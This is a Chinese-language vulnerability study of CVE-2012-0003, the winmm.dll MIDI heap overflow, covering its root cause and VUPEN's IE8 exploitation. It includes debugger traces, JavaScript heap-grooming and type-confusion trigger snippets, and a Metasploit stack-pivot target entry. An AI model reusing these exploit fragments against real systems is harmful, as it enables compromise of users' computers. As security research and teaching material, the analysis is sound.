








#                             CVE-2012-0003

## 1.前言

​      这个漏洞是我学习分析的第一个堆溢出漏洞,是Winmm.dll处理midi文件的时候,对数据格式处理不当引发了堆溢出,winmm.dll在Windows Media Player和IE中都被使用,VUPEN给出了IE的利用方式,构思巧妙,所以我们先分析下漏洞成因,再重点看下漏洞的利用

## 2.漏洞成因

​    根据泉哥的书我们可以初步了解到midi格式,我们对testcase.mid用010editor的midi模版分析



可以看到有10个midimessage的结构,具体的midimessage结构体成员的含义可以对照着泉哥的书理解

   按照泉哥的漏洞分析,先开启页堆,windbg 加载上去,可以看出来崩溃在0x76B2D224,对了,我分析的这个winmm的版本是5.1.2600.5512,样本是poc目录下的html和toto.mid (这个走了弯路了,应该使用testcase.mid 这样理解漏洞成因会比较清晰)



   按照泉哥书上的漏洞分析;变量传播;下对应的条件断点

```asm
 bp 76B2D044 ".printf \" wparam = %x \r\n \", edi;.echo; gc";
 bp 76B2D053 ".printf \" v2 = %x \r\n \", esi; .echo; gc";
 bp 76B2D099 ".printf \" v9 = %x \r\n \", ebx; .echo; gc";
 bp 76B2D0B8 ".printf \" v11 = %x \r\n \", ecx;.echo; gc";
 bp 76B2D0C9 ".printf \" v13 = %x \r\n \", ecx;.echo; gc";
 bp 76B2D1F9 ".printf \" v21 = %x \r\n \", dl; .echo; gc";
```

对应的输出结果是,这里只是截取了一部分

```asm
v2 = 96f2fc0    
 v9 = 418    
 v11 = 7f65b9    
 v13 = 7f65b9    
 v21 = b0    
 v2 = 96f2fc0    
 v9 = 424    
 v11 = 7f64b9
 v13 = 7f64b9    
 v21 = b0    
 v2 = 96f2fc0    
 v9 = 430    
 v11 = 640bb8    
 v13 = 640bb8    
 v21 = b0    
 v2 = 96f2fc0    
 v9 = 43c    
 v11 = 460bb3    
 v13 = 460bb3    
 v21 = b0    
 v2 = 96f2fc0    
 v9 = 448    
 v11 = 7db29f    
 v13 = 7db29f    
 v21 = 90    
(904.94c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000419 ebx=0000007d ecx=007db29f edx=00000000 esi=09649019 edi=09646f60
eip=76b2d224 esp=09b8fe80 ebp=09b8fea0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
WINMM!waveOutGetID+0xd2b:
76b2d224 8a06            mov     al,byte ptr [esi]          ds:0023:09649019=??


```

在010editor中对应的样本数据是在这里, MidiTrack track[4]的 MidiMessage message[9]：



对应上面的输出的话,按照正常逻辑思考的话,我们会对上一个v11和v13的数据进行猜测,很自然的觉得应该会对应MidiTrack track[4]的 MidiMessage message[8],结果并不是,我在这里浪费了时间了, 在没明白这个结构的时候,我这个时候换用testcase.mid开始分析了

```
 v11 = 460bb3    
 v13 = 460bb3 
```

在使用testcase.mid开始分析的时候,既然前面我们已经知道了v11 v13是对音轨数据处理,那么我们可以条件断点在v11

```asm
bp 76B2D0B8 ".if (ecx == 0x73b29f) {}; .else{gc;}"
```

断点中断后;一路单步进行下去;到下图的位置




可以看出来v24 = ((9F&F0)<<7+B2)>>1 = 0x419;  为什么说这个数据是大了呢,我们可以找下v20的来源,可以发现v20 = winmmAlloc(0x400u); 越界了0x19的空间


以上基本就是按照漏斗战争的路子来分析的,但是如果你完全按照这本书来分析,那么得其形,不得其神,因为分析这个漏洞,如果你对midi格式一窍不通的话,你是很难体会作者的分析思路的

我们来分析下这个testcase.mid,首先我们用个python库来分析下(Python简单,仅此而已) python有个[mido](https://mido.readthedocs.io/en/latest/)库,我们

```python
# This Python file uses the following encoding: utf-8
# pip install mido
import mido

with open(r"exploit\test_case.mid", "rb") as hfile:
    midi_date = bytearray(hfile.read())
    p = mido.Parser()
    p.feed(midi_date)
    for message in p:
         print str(message)
```

输出是

```asm
reset time=0
program_change channel=9 program=40 time=0
control_change channel=9 control=7 value=100 time=0
control_change channel=9 control=10 value=64 time=0
control_change channel=9 control=123 value=0 time=0
control_change channel=9 control=91 value=40 time=0
control_change channel=9 control=93 value=0 time=0
note_on channel=9 note=35 velocity=127 time=0
control_change channel=2 control=115 value=0 time=0
reset time=0
```

好像毛线也没有看出来,那换个C++的库来看看吧 [midifile](https://github.com/craigsapp/midifile)

```c++
int xxxmain(int argc, char** argv) {
	Options options;
	options.process(argc, argv);
	MidiFile midifile;
	if (options.getArgCount() == 0) midifile.read(cin);
	else midifile.read(options.getArg(1));
	midifile.doTimeAnalysis();
	midifile.linkNotePairs();

	int tracks = midifile.getTrackCount();
	cout << "TPQ: " << midifile.getTicksPerQuarterNote() << endl;
	if (tracks > 1) cout << "TRACKS: " << tracks << endl;
	for (int track = 0; track<tracks; track++) {
		if (tracks > 1) cout << "\nTrack " << track << endl;
		cout << "Tick\tSeconds\tDur\tMessage" << endl;
		for (int event = 0; event<midifile[track].size(); event++) {
			cout << dec << midifile[track][event].tick;
			cout << '\t' << dec << midifile[track][event].seconds;
			cout << '\t';
			if (midifile[track][event].isNoteOn())
				cout << midifile[track][event].getDurationInSeconds();
			cout << '\t' << hex;
			for (int i = 0; i<midifile[track][event].size(); i++)
				cout << (int)midifile[track][event][i] << ' ';
			cout << endl;
		}
	}

	return 0;
}
```


```asm
MIDI data byte too large: 178
TPQ: 96
Tick    Seconds Dur     Message
0       0               ff 3 d 44 72 75 6d 73 20 20 20 28 42 42 29 0
0       0               c9 28
0       0               b9 7 64
0       0               b9 a 40
0       0               b9 7b 0
0       0               b9 5b 28
0       0               b9 5d 0
720     3.75    0       99 23 7f
```

这下和010EDitor中的结果能对应上来了,而且我们能发现刚好就是 00 9F B2 73这个数据是没有输出的,看见最上面的输出 MIDI data byte too large: 178; 178刚好就是B2,我们再调试下这个库



可以看出来由于 00 9F B2 73 中 B2 > 7F 导致这个音轨数据没有被处理. 这样我们也就理解了为什么微软分配了0x400的数据,因为 (F<<7+0x7F)>>1  < 0x400 

现在来说 漏洞成因我们现在是清楚了 


## 3.漏洞利用

​        我们清楚了漏洞成因 , 事实上这个漏洞之所以牛逼是在于这个漏洞的利用手法, 当我第一次调试清楚利用方式的时候我是内心不断的说牛逼,下面是我对这个漏洞的理解

​        我用的是exploit目录下的ie8.html调试的,先说下结论,shellcode在我的这个版本有点问题,不能直接弹出计算器,当初以为是泉哥给出的样本有问题,用msf生成新的样本也还是有问题,这里也浪费了一些时间,其实应该先学习下这个漏洞的利用方法,这个ie8的样本虽然是弹出计算器的那段shellcode有问题,但是前面的触发是一点问题没有的,我们来看下这shellcode的利用 我的mshtml的版本是8.0.6001.18702

网页中 cloneNode 这个函数最终调用到CAttrArray::Clone;注意到



CImplAry::EnsureSizeWorker 分配内存

```c++
CImplAry::EnsureSizeWorker@<eax>(CImplAry *this@<ecx>, unsigned __int32 dwElement@<eax>, int a3@<edi>, unsigned int SizeOfElement, CAttrValue *a5)
```

注意样本中的selob,其有64个属性,这个是故意为之的,因为64*0x10 = 0x400

下面的代码实际上就是先分配了1000个0x400的内存,然后又释放其中一半的内存

```js
while (i < 1000) {
			clones[i] = selob.cloneNode(true)
			i = i + 1;
		}

		var j = 0;
		while (j < 1000) {
			delete clones[j];
			CollectGarbage();
			j  = j + 2;
		}

```

注意 delete clone[j]这句.这句会调用到CImplAry::DeleteAll




先说下这样做的目的, 先申请1000个0x400的内存,接着释放掉一半,这样的目的是为了让后面winmm申请0x400的内存的时候,其申请的地址刚好是我们释放掉的内存中的其中一个地址(我们释放了500个,会是其中的一个),这个1000应该是实验后发现比较能稳定利用才选的结果,后面就会看到,这样做的一个前提还有这两个dll用到的内存堆是同一个堆,就是默认的进程堆

```asm
 # mshtml
 g_hProcessHeap = GetProcessHeap();
```

```asm
# winmm
hHeap = *(HANDLE *)(*(_DWORD *)(__readfsdword(24) + 48) + 24)
hHeap = NtCurrentTeb()->ProcessEnvironmentBlock->ProcessHeap;
```

```c
#define GetProcessHeap() (NtCurrentPeb()->ProcessHeap)
```


在调试器中我们先看下mshtml的内存的分配释放以及winmm.dll的内存的申请

```asm
bu mshtml!dllmain;
bu winmm!dllmian;

bu 6376e1ca " .printf \" [*Arry*]Alloc Buffer:0x%08x \", esi;.echo;gc";
bu 6363FD85 " .printf \" [*Arry*]Free Buffer:0x%08x \", poi(esi+C);.echo;gc"
bu 76b2cdee " .printf \" [*Winmm*]Alloc Buffer:0x%08x \",eax;.echo;";
```


> ```
>  ......
>  [*Arry*]Alloc Buffer:0x0d2c3938 
>  [*Arry*]Alloc Buffer:0x0d2c3d40 
>  [*Arry*]Alloc Buffer:0x0d2c4148 
>  [*Arry*]Alloc Buffer:0x0d2c4550 
>  [*Arry*]Alloc Buffer:0x0d2c4958 
>  [*Arry*]Alloc Buffer:0x0d2c4d60 
>  [*Arry*]Free Buffer:0x0321c090 
>  [*Arry*]Free Buffer:0x0321c8a0 
>  ......
>  [*Arry*]Free Buffer:0x0d2c3938 
>  [*Arry*]Free Buffer:0x0d2c4148 
>  [*Arry*]Free Buffer:0x0d2c4958 
>  ......
>  [*Winmm*]Alloc Buffer:0x0d2c4958 
> 
> 
>  
> ```

可以看到Winmm申请的0x0d2c4958这个buffer正好是我们mshtml释放的,注意我们mshtml申请的下一个buffer 位置是0x0d2c4d60, 看下两者的距离是0x408,到这一步的话,我们能够预测出winmm的内存分配的位置,并且我们知道winmm分配的内存位置和mshtml分配的下一个内存位置偏移是0x408,如果说我们能够控制winmm让其将mshtml的数据进行改写,也许我们能有利用的机会,VUPEN就是这么做


回到漏洞,我们知道漏洞的成因是内存越界了,看看越界后做了什么



可以修改越界处,将其数值加1,VUPEN的牛逼之处就是这一字节修改,巧妙的利用了tagVARIANT结构体的类型混淆从而使得代码执行

注意selob有64个元素,并且刚好第二个元素是string类型,还记得我们CImplAry::EnsureSizeWorker这个函数分配的是64*0x10,这个0x10应该是个tagVARIANT结构体,第一个字节指明了类型

```js
selob.w0 = alert
selob.w1 = unescape("%u1be4%u0c0c")
```

w0对应的类型是VT_DISPATCH(9), w1对应的类型是VT_BSTR(8),一字节修改之后,w1被混淆成了VT_DISPATCH,计算下我们实际要修改的位置就是 0x10+1,再加上前面两块内存距离是0x408,那么我们实际的偏移量是0x419,也就是说

00 9F B2 73 这个音轨数据的B2和9F中的F是这样得出来的（F<<7+B2)>>1 = 0x419,

unescape("%u1be4%u0c0c")本来是VT_BSTR代表的数据,现在被当成是虚表指针,那么触发的时机正是CAttrValue::GetIntoVariant的函数,这里面你可以看到类型混淆后的执行,那么CAttrValue::GetIntoVariant是由脚本的什么函数执行呢

```js
while (k > 0) {
			if (typeof(clones[k].w1) == "string") {
			} else {
				clones[k].w1('come on!');
			}
			k = k - 2;
		}
```

clones[k].w1('come on!') 这个触发了CAttrValue::GetIntoVariant


注意msf的样本0x76C9B4C2这个地址在我的机器上地址是不对的,我随便找了个地址,将里面的汇编改成,而且这段shellcode还需要JRE的msvcr71.dll. 所以你还要记得安装下JRE

```asm
xchg ecx,esp
ret 8
```


```ruby
'IE 8 on Windows XP SP3',
						{
							# xchg ecx,esp
							# or byte ptr [eax],al
							# add byte ptr [edi+5Eh],bl
							# ret 8
							# From IMAGEHLP
							'Rop' => true,
							'StackPivot' => 0x76C9B4C2,
							'DispatchDst' => 0x0c0c1be4
						}
```


可以看到堆漏洞的利用相比于前面的栈利用来说要复杂了,就这个漏洞来说,产生问题的代码在winmm中,但是我们利用的代码是mshtml中,我们还要知道对应的js代码执行的时候对应的dll中的执行流程,另外我们也没有去分析堆喷,这些都需要后面的实践,堆喷是个成熟的技术,所以后面会专门的就堆喷进行分析,而不是在每个样本中就堆喷进行说明,看了这个利用,以后还要加强对js的一些学习,以及mshtml的一些执行逻辑


## 4.漏洞的修复与防御

1. 微软的修复就是限制音高数值不能超过7F
2. 由于使用堆喷,所以也可以占坑地址,不让他分配成功
3. stackpivot这个也是很好的防御点


## 5.参考链接

1. http://pwdme.cc/2017/10/31/cve-2012-0003/
2. https://www.anquanke.com/post/id/85089
3. <<漏洞战争>>